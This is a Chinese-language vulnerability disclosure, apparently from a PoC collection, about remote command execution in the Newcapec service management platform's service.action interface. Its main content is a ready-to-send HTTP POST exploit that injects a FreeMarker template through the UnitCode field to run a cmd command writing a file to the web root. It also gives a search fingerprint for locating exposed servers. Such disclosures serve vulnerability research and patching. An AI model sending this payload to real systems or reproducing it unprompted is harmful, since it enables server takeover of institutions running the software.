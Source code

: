 # 新开普 前置服务管理平台 service.action 远程命令执行漏洞

## 漏洞描述

新开普 前置服务管理平台 service.action 接口存在远程命令执行漏洞，攻击者通过漏洞可以获取服务器权限

## 漏洞影响

<a-checkbox checked>新开普 前置服务管理平台</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="掌上校园服务管理平台"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1691989411711-5c56958b-5bbf-4b98-89c2-4151004d3504.png)

验证POC

```http
POST /service_transport/service.action HTTP/1.1
Host: 
Accept: */*
Content-Type: application/json

{"command":"GetFZinfo","UnitCode":"<#assign ex = \"freemarker.template.utility.Execute\"?new()>${ex(\"cmd /c echo Test > ./webapps/ROOT/Test.txt\")}"}
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1691990575177-be0f5d8c-cd7e-4274-a782-6fd506f39232.png)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1691990627821-b50c7d15-6d79-4fff-8aa8-e546cec37abf.png)
